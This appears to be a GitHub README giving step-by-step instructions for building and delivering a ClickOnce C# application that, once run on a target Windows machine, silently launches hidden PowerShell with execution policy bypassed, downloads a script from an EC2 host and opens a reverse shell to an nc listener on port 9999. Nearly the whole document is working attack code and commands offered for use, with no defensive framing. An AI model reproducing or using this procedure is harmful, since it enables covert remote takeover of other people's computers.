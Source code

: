 ## 1. Create lscript.application

1. Go to Visual Studio Community edition
2. Create a C# Console application for Windows
3. In lscript.cs, write the following code ->

```
using System.Diagnostics;

static class Program {
    [System.STAThread]
    static void Main() {
        string encoded = "<YOUR_BASE64_STRING>";
        string psArgs = $"-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand {encoded}";
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,
            UseShellExecute = false
        };
        Process.Start(psi);
    }
}
```

4. Change the Uri to the EC2 instance with the **perfect.ps1** script. Run the below command in Mac/Linux,

```
echo "Invoke-WebRequest -Uri 'http://ec2-3-253-172-6.eu-west-1.compute.amazonaws.com:80/perfect.ps1' -OutFile 'perfect.ps1'; powershell -ExecutionPolicy Bypass -File 'payload.ps1'" | iconv -t UTF-16LE | base64 -w 0
```

5. You have to host the perfect.ps1, go to https://www.revshells.com, change the reverse shell IP to the public IP and port as 9999.
6. Create a Powershell base64 payload, copy and save it in the EC2 instance.
7. Open port 9999 from the security group for the public IP.

## 2. Publishing the exploit

1. Go to Visual Studio on the Windows machine.
2. Right click, choose **Properties**, then **Security**, Enable **ClickOnce Security Settings, This is a full trust application**.
3. This application is available offline and startable from Start Menu, click **Publish**.

## 3. Exploitation

1. Go to your EC2 Instance, make sure there is an inbound rule entry in the security groups for port 9999 for only the public IP of the target device that will be used.
2. Start the listener with ```nc -lnvp 9999```
3. Execute the _lscript.application_ file on the target device.
4. Check the listener.
